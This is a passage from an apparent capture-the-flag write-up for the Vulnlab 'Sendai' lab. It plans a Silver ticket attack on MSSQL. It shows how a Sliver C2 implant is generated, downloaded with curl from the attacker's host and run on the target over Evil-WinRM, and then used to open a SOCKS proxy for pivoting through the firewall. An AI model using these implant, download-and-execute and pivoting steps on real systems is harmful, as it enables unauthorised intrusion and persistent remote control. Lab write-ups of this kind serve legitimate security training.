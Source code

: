 ![](/images/vulnlab/sendai-vl/i.png)

At this point, I immediately thought back to what we had done for [Breach](https://dan-feliciano.com/2024/06/29/breach/). Given that we have the plaintext password for an account that has an SPN set to MSSQL (which seems to be the MSSQL service account), we can potentially exploit a [Silver ticket attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket).

With the silver ticket attack, we can gain command execution access through MSSQL by impersonating the Administrator user. Let's first start up [Sliver C2](https://github.com/BishopFox/sliver) and set up a SOCKS proxy, as the MSSQL service is not externally facing and is behind a firewall (since we didn't see it on our initial NMAP scan).

```
sliver > mtls
sliver > generate --mtls (KALI IP) --os windows --arch amd64 --format exe --save (SAVE PATH) --name sendai
```

Let's then execute the Sliver implant to receive a session on our Sliver server - to which we can start a SOCKS proxy on.

```
*Evil-WinRM* PS C:\temp> curl http://10.8.0.173:9001/sendai.exe -O sendai.exe
*Evil-WinRM* PS C:\temp> .\sendai.exe

[*] Session 9976dc7b sendai - 10.10.98.227:60658 (dc) - windows/amd64 - Sun, 07 Jul 2024 00:24:25 EDT

sliver > use 9976dc7b-addd-44c8-9ac1-b8960b009c67

[*] Active session sendai (9976dc7b-addd-44c8-9ac1-b8960b009c67)

sliver (sendai) > socks5 start

[*] Started SOCKS5 127.0.0.1 1081  
⚠  In-band SOCKS proxies can be a little unstable depending on protocol
```

Now that we have a SOCKS proxy running, make sure to update `/etc/proxychains4.conf` at the bottom of the file to reflect the interface (`127.0.0.1`) and the port (`1081`) that the proxy is listening on.

We can then use `proxychains4` to execute commands through the firewall.

```
└─$ proxychains4 nmap -sT -p1433 10.10.98.227         
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Nmap scan report for sendai.vl (10.10.98.227)
Host is up (0.26s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s

Nmap done: 1 IP address (1 host up) scanned in 0.52 seconds
```
